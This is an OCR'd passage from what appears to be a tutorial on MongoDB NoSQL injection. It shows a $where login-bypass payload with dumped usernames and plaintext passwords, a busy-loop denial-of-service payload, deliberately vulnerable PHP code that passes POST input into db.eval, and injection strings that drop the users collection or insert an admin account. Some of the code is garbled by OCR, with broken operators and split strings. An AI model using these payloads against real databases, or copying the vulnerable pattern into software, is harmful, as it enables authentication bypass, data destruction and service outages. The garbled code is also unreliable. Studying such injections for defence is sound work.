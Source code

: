 ````sql
	}
")
```
- The query command executed in MongoDB is

````sql

db.users.find({$where: "function() { var username = '1';var password = '1';return true;var a='1';if(username == 'admin' && password == '123456'){ return true; }else{ return false; }}"})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }
{ "_id" : ObjectId("61445fd0a7a3dc15f3ac9c92"), "username" : "Gyan", "password" : "20080826" }
{ "_id" : ObjectId("61445fe1a7a3dc15f3ac9c93"), "username" : "guest", "password" : "guest" }
{ "_id" : ObjectId("61445fe7a7a3dc15f3ac9c94"), "username" : "demo", "password" : "demo" }
{ "_id" : ObjectId("61445ff9a7a3dc15f3ac9c95"), "username" : "Tom", "password" : "123456" }
```

- It is not difficult to see from the above injection process that the `return true` in password causes the entire JavaScript code to end in advance and return true, successfully constructing a permanent true condition to bypass and complete Nosql injection.

- DOS class attack Payload
````sql
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```
### Command method injection
- MongoDB Driver generally provides methods to directly execute shell commands. These methods are generally not recommended, but it is inevitable that in order to implement some complex queries, people can execute JavaScript scripts through the `db.eval` method on the server side of MongoDB. For example, you can define a JavaScript function and then run it on the server side through `db.eval`

```php

<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' ="db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```
- Payload as follows

````sql
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"adm
in","password":123456"});db.users.find({'username':'1
```
## Boolean blind
````